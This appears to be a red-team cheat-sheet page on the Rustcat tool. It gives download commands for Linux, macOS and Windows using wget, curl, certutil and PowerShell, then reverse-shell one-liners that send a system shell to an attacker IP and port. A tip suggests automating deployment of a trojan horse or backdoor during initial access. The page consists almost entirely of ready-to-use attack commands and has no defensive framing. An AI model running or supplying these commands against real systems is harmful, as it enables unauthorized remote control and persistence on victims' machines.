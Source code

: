```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - cross-platform
  - rustcat
---
```

# Rustcat

## 01 - Download Pre-compiled Payload

> [!TIP]
> You can make an automated script to deploy a trojan horse or backdoor during the initial access and maintaining access.

### 1.1 - Linux

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64
```

### 1.2 - OSX

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64
```

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64
```

### 1.3 - Windows

```
C:\> certutil.exe -urlcache -split -f https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe rcat.exe

C:\> curl.exe -o rcat.exe https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe
```

```
PS C:\> Invoke-WebRequest -Uri https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe -OutFile rcat.exe
```

## 02 - Reverse Shell

```
$ ./rcat c -s </bin/sh | /bin/bash> <attacker_IP> <attacker_PORT>
```

```
C:\> .\rcat.exe c -s <cmd.exe | powershell.exe> <attacker_IP> <attacker_PORT>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Shell Handler/Cross Platform/Manual/Netcat Variants/Rustcat]]
